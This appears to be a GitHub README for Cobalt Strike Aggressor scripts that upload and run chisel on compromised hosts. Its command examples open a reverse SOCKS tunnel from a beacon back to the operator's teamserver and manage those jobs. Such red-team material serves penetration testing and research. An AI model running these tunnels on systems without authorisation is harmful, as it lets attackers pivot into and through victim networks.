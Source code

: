 # Cobalt_Strike_scripts
Cobalt Strike Aggressor scripts

ATTENTION: ONLY EDUCATION & RESEARCH PURPOSES ALLOWED

## Chisel script
What does the script do (*chisel* module)?
1. The script first checks that the chisel file exists on the target host.
2. If the file doesn't exist, then it's uploaded to the host and then launched. If the file exists, then it's launched.

The *chisel.cna* needs these files and these files must be located on the teamserver:
- logs/
  - chisel_client_job_pids.log
  - chisel_tms_job_pids.log
- modules/
  - chisel_linux
  - chisel_win.exe
  - chisel64
  - chisel64.exe
  - chisel86
  - chisel86.exe
- tools/
  - tmskill64.bat
  - tmskill64.sh
  - tmskill86.bat
  - tmskill86.sh

You must have write permissions to the log files.

You can download last versions of chisel from https://github.com/jpillora/chisel

Change *$chisel_user*, *$chisel_pass* in the *chisel.cna*.

### Modules
🔺 **chisel**

The 'client' functionality is used on a beacon. Example:
```
chisel client <serv_IP>:<serv_port> R:<socks_IP>:<socks_port>:socks
```

🔺 **chisel-jobs**

List active chisel jobs on the teamserver and beacon. Just run:
```
chisel-jobs
```

🔺 **chisel-kill**

Kill chisel jobs on a beacon. Use 'ALL' to kill all jobs or PID to kill only one job with typed PID. Example:
```
chisel-kill ALL
chisel-kill 3453
```

🔺 **chisel-tms**

Run Chisel on your teamserver. Example:
```
chisel-tms server --auth user:pass -p <serv_port> --socks5 --reverse
```

🔺 **chisel-tms-kill**

Kill all chisel jobs on the teamserver. Just run:
```
chisel-tms-kill
```

### Screenshots
![Chisel](/screens/ch_client.png)
![Chisel tms](/screens/ch_tms.png)
